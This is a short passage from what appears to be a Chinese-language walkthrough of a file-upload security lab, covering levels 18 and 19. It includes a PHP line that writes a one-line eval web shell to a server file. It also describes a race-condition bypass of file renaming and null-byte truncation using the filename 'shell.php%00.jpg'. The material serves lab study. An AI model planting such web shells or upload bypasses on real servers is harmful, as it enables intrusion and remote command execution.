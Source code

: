 ![image-20200427163447698](/images/image-20200427163447698.png)

本来我是想直接写另一个马到服务器的…但是我的win10虚拟不知道为什么报错，php代码如下：

```
<?php    fputs(fopen("../poc.php","w"),'<?php @eval($_POST[cmd]);');?>
```

这个打开文件流时会报错，路径问题…看的很迷，linux的环境我没搭，下次试试再试试这个。

#### Pass-18

嗯嗯嗯，不会，看网上大佬的writeup说是条件竞争绕过文件重命名然后配合apache解析漏洞

#### Pass-19

%00截断，保存的文件名可控

> shell.php%00.jpg
